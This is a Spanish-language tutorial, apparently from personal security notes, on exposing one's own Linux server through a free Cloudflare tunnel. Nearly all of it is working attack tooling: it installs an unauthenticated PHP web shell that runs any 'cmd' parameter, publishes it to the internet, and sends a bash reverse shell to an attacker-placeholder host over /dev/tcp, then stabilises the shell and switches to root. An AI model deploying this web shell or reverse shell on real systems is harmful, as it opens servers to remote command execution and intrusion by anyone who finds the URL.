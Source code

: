 ```yaml
---
icon: flag
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Exponer Puerto con Cloudflare Gratis

Si por ejemplo queremos exponer un puerto de forma gratuita para podernos conectar a nuestro servidor de `Linux` obteniendo una shell y pudiendo hacer lo que queramos desde cualquier parte del mundo, podremos realizar un truco.

En vez de pagar un dominio en `Cloudflare` para exponer el puerto `SSH` y conectarnos de forma remota, podremos exponer el puerto `80`, crear una pagina en `PHP` que nos permita inyectar comandos directamente en el servidor, para asi poder obtener una `reverse shell`, a todo esto le podemos poner una seguridad dentro del `PHP` como por ejemplo un `login` para que los usuarios que esten autenticados pueda generar una `reverse shell` desde la pagina web.

## Instalar cliente de Cloudflare

Lo que tendremos que hacer de primeras es instalar el cliente de `Cloudflare`, en mi caso lo hare en `Linux` desde esta pagina.

URL = [Pagina Cloudflare Downloads](https://developers.cloudflare.com/cloudflare-one/connections/connect-networks/downloads/#linux)

> NOTA IMPORTANTE

Para saber la arquitectura de nuestro sistema `Linux` podremos hacerlo con `uname -m` en la terminal, en mi caso me pone `x86_64` por lo que sabemos que seria `AMD x86_64`.

> Listado de arquitecturas de Sistema Linux

* `x86_64` → arquitectura **AMD64/Intel 64** (también llamado **x64**)
* `i686` o `i386` → arquitectura **32-bit x86**
* `aarch64` → arquitectura **ARM de 64 bits**
* `armv7l` → arquitectura **ARM de 32 bits**

Una vez descargado en mi caso seria el `.deb`, tendremos que ejecutar el siguiente comando para instalarlo.

```shell
dpkg -i <FILE>.deb
```

Una vez que se haya instalado (No deberia de tardar) podremos exponer un puerto `web` de la siguiente forma, pero antes de hacerlo tendremos que instalar `apache2`.

## Instalar/Configurar Servidor Web (apache2)

```shell
sudo apt update
sudo apt install apache2
```

Una vez instalado, vamos a iniciar el servicio de esta forma.

```shell
service apache2 start
systemctl enable apache2 #En tal caso de que tuvieramos la herramienta "systemctl"
```

Echo esto vamos añadir en la ruta donde se alojan las paginas web de `apache2` el siguiente archivo sencillo para podernos generar una `reverse shell`.

```shell
nano /var/www/html/index.php

#Dentro del nano
<?php
if (isset($_GET['cmd'])) {
    $cmd = $_GET['cmd'];
    echo "<pre>";
    system($cmd);
    echo "</pre>";
} else {
    echo "Usa ?cmd=comando para ejecutar.";
}
?>
```

Lo guardamos, le establecemos permisos de ejecuccion.

```shell
chmod +x /var/www/html/index.php
chown -R www-data:www-data /var/www/html/
sudo apt install apache2 php libapache2-mod-php -y
```

Ahora reiniciamos el servicio de `apache2`.

```shell
service apache2 restart
```

Echo esto ahora si vamos a exponer nuestro puerto `80` que es donde esta la pagina web de `apache2` de esta forma.

## Iniciar Cloudflare (Tunelización)

```shell
cloudflared tunnel --url http://localhost:80
```

Info:

```
2025-06-17T14:52:05Z INF Thank you for trying Cloudflare Tunnel. Doing so, without a Cloudflare account, is a quick way to experiment and try it out. However, be aware that these account-less Tunnels have no uptime guarantee, are subject to the Cloudflare Online Services Terms of Use (https://www.cloudflare.com/website-terms/), and Cloudflare reserves the right to investigate your use of Tunnels for violations of such terms. If you intend to use Tunnels in production you should use a pre-created named tunnel by following: https://developers.cloudflare.com/cloudflare-one/connections/connect-apps
2025-06-17T14:52:05Z INF Requesting new quick Tunnel on trycloudflare.com...
2025-06-17T14:52:11Z INF +--------------------------------------------------------------------------------------------+
2025-06-17T14:52:11Z INF |  Your quick Tunnel has been created! Visit it at (it may take some time to be reachable):  |
2025-06-17T14:52:11Z INF |  https://recording-phpbb-webmaster-cf.trycloudflare.com                                    |
2025-06-17T14:52:11Z INF +--------------------------------------------------------------------------------------------+
2025-06-17T14:52:11Z INF Version 2025.6.1 (Checksum <CHECKSUM>)
2025-06-17T14:52:11Z INF GOOS: linux, GOVersion: go1.24.2, GoArch: amd64
2025-06-17T14:52:11Z INF Settings: map[ha-connections:1 protocol:quic url:http://localhost:80]
2025-06-17T14:52:11Z INF cloudflared will not automatically update if installed by a package manager.
2025-06-17T14:52:11Z INF Generated Connector ID: <ID>
2025-06-17T14:52:11Z INF Initial protocol quic
2025-06-17T14:52:11Z INF ICMP proxy will use <IPv4> as source for IPv4
2025-06-17T14:52:11Z INF ICMP proxy will use <IPv6> in zone ens33 as source for IPv6
2025-06-17T14:52:11Z INF ICMP proxy will use <IPv4> as source for IPv4
2025-06-17T14:52:11Z INF ICMP proxy will use <IPv6> in zone ens33 as source for IPv6
2025-06-17T14:52:11Z INF Starting metrics server on 127.0.0.1:20241/metrics
2025-06-17T14:52:11Z INF Tunnel connection curve preferences: [X25519MLKEM768 CurveID(<CURVEID>) CurveP256] connIndex=0 event=0 ip=<IP_PUBLICA>
2025-06-17T14:52:11Z INF Registered tunnel connection connIndex=0 connection=<ID> event=0 ip=<IP_PUBLICA> location=mad02 protocol=quic
```

De toda esta informacion tendremos que quedarnos donde pone:

```
+--------------------------------------------------------------------------------------------+
2025-06-17T14:52:11Z INF |  Your quick Tunnel has been created! Visit it at (it may take some time to be reachable):  |
2025-06-17T14:52:11Z INF |  https://recording-phpbb-webmaster-cf.trycloudflare.com                                    |
2025-06-17T14:52:11Z INF +--------------------------------------------------------------------------------------------+
```

En concreto donde empieza el `https://...` todo eso va a ser nuestro dominio `tunelizado` desde nuestro servidor local de `apache` por lo que cuando alguien se conecte de forma externa, como por ejemplo nosotros desde otro ordenador, lo que estaremos haciendo sera conectarnos a `http://localhost:80` de forma externa, por lo que si en un navegador ponemos...

```
URL = https://recording-phpbb-webmaster-cf.trycloudflare.com
```

Veremos nuestra interfaz de `apache2` por defecto ya que no eliminamos nuestro `index.html`, pero vamos a ir al archivo que hemos creado de `PHP`.

```
URL = https://recording-phpbb-webmaster-cf.trycloudflare.com/index.php?cmd=whoami
```

Info:

```
www-data
```

Veremos que esta funcionando, ahora si desde otro ordenador con un `kali linux` nos ponemos a la escucha con `nc` de esta forma.

## Obtener acceso a nuestro servidor por shell

```shell
nc -lvnp <IP>
```

Y desde la `URL` enviamos una `reverse shell` de esta forma.

```
URL = https://recording-phpbb-webmaster-cf.trycloudflare.com/index.php?cmd=bash -c "bash -i >%26 /dev/tcp/<IP_ATTACKER>/<PORT> 0>%261"
```

Lo enviamos y si volvemos a donde tenemos nuestra escucha veremos que habremos obtenido acceso como el usuario `www-data` por lo que sanitizaremos la `shell`.

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

Una vez echo esto ya tendremos una `shell` bien sanitizada y habremos podido acceder a nuestro servidor de forma gratuita sin comprar ningun dominio en `Cloudflare`, ni exponer el puerto `SSH` de forma directa, solamente desde la `web`, ya solo tendremos que hacer.

```shell
su root
```

Meter la contraseña de `root` que hayamos puesto y listo, tendremos acceso al servidor como `root` desde cualquier parte del planeta.
